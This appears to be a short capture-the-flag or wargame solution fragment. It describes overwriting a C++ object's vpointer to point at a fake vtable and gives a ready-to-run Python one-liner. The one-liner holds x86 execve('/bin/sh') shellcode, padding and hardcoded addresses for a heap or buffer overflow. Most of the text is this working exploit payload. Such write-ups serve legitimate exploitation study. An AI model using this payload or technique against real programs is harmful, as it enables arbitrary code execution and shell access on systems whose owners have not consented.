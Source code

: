 Overwrite the vpointer so it points to a fake vtable. The first entry of the fake vtable points to a shellcode.

$(python -c 'print("\x10\xA0\x04\x08" + "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80" + "#"*81 + "\x0C\xA0\x04\x08")')